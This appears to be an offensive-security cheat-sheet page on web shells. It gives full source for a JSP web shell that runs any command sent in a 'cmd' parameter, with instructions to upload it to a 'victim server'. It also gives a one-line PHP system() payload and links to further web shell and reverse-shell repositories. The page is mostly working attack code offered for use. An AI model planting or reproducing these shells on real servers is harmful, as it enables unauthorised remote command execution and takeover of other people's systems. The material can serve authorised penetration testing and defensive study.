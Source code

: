 # Web Shells

## <mark style="color:red;">JSP</mark>

1. Save the [source code](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp) below as cmd.jsp and upload to the victim server.
2. Enter the command in the input box and click “Execute”. The command output will be displayed on the page in the web browser.

```javascript
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>p
```

Other JSP Shells:

1. JSP Reverse+Web Shell:&#x20;

{% embed url="https://github.com/LaiKash/JSP-Reverse-and-Web-Shell/blob/main/shell.jsp" %}

2. JSP Web Shells Mix:&#x20;

{% embed url="https://github.com/threedr3am/JSP-Webshells" %}

## <mark style="color:red;">PHP</mark>

Classic payload to execute commands:

```php
<?php system($_GET['cmd']); ?>
```

A really simple and tiny PHP Web shell for executing unix commands from web page:

{% embed url="https://github.com/artyuum/Simple-PHP-Web-Shell" %}

A Simple PHP Web Shell used for Remote Code Execution:

{% embed url="https://github.com/itsKindred/php-web-shell" %}

A very simple but functional PHP webshell:

{% embed url="https://github.com/drag0s/php-webshell" %}
